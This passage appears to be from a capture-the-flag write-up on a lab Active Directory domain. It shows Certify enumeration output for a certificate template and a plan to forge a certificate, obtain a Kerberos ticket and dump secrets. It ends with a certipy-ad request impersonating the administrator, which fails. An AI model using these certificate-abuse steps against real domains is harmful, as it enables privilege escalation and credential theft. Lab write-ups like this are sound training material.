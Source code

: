 ```
    pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Secure Email
    mspki-certificate-application-policy  : Client Authentication, Encrypting File System, Secure Email
    Permissions
      Enrollment Permissions
        Enrollment Rights           : sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Domain Users           S-1-5-21-4078382237-1492182817-2568127209-513
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
        WriteOwner Principals       : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519


Certify completed in 00:00:12.9143116
```

must say i have never used this before so i have to do some research.... brb

OK so the vuln ADCS template is UserAuthentication, with that being said we should be able to:
- Request a forged certificate
    
- Use it to get a TGT (Kerberos ticket)
    
- Dump secrets or pwn SYSTEM

but certify cant do this we need to use certpy:
```
certipy-ad req -u ryan.cooper@sequel.htb -p '' \
-ca sequel-DC-CA -template UserAuthentication \
-on-behalf-of administrator@sequel.htb \
-dc-ip 10.10.11.202 \
-out administrator

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[-] A certificate and private key (-pfx) is required for on-behalf-of requests
```
